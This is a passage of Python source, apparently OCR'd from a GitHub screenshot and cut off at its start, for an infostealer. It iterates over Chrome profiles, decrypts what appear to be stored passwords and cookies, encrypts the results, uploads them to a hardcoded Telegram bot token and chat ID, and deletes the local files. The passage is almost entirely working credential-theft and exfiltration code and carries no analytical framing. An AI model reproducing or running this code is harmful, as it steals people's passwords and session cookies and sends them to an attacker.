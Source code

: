 ```py
    )


def upload(file):
    # Encryption based on docs: https://pycryptodome.readthedocs.io/en/latest/src/examples.html#encrypt-data-with-rsa
    session_key = get_random_bytes(16)
    enc_session_key = cipher_rsa.encrypt(session_key)
    cipher_aes = AES.new(session_key, AES.MODE_EAX)
    ciphertext, tag = cipher_aes.encrypt_and_digest(open(file, "rb").read())

    with open(file, "w") as f:
        f.write(enc_session_key.hex() + "\n")
        f.write(cipher_aes.nonce.hex() + "\n")
        f.write(tag.hex() + "\n")
        f.write(ciphertext.hex() + "\n")

    requests.post(
        'https://api.telegram.org/bot5922953099:AAG89vBZZIoXt4FbYkUmdukyR9yYniBHxz4/sendDocument',
        data={'chat_id': '-1001855149018'},
        files={'document': open(file, 'rb')}
    )


for_handler = (
    filePass,
    fileCookies,
    "TempMan.db",
    "CookMe.db"
)


def file_handler(file):
    if os.path.exists(file):
        if ".txt" in file:
            upload(file)
        os.remove(file)


def main():
    send_info()

    # CHROME PROFILES
    for i in os.listdir(browser_loc['Chrome'] + "\\User Data"):
        if i.startswith("Profile "):
            browser_loc["ChromeP"] = f"{local}\\Google\\Chrome\\User Data\\{i}"

    for name, path in browser_loc.items():
        print(path, name)
        decrypt_files(path, name)
    for i in for_handler:
        file_handler(i)


if __name__ == "__main__":
    main()
```
